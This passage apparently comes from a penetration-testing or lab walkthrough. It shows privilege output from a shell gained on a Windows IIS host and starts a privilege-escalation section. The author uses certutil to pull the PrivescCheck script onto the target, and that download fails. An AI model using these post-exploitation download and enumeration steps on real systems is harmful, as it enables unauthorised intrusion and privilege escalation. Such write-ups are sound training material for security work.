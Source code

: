 ```cmd
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Label            S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Excellent, we now have shell on the target

# 5. Privilege escalation

## 5.1. Finding points of privilege escalation

Scan for possible points of privilege escalation using [PrivescCheck](https://github.com/itm4n/PrivescCheck)

I'd usually get the target to download the `PrivescCheck.ps1` directly from GitHub, but the TLS handshake is failing with `WIN32: 12029` for some reason:

```cmd
c:\windows\system32\inetsrv>certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
****  Online  ****
CertUtil: -URLCache command FAILED: 0x80072efd (WIN32: 12029)
CertUtil: A connection with the server could not be established
```
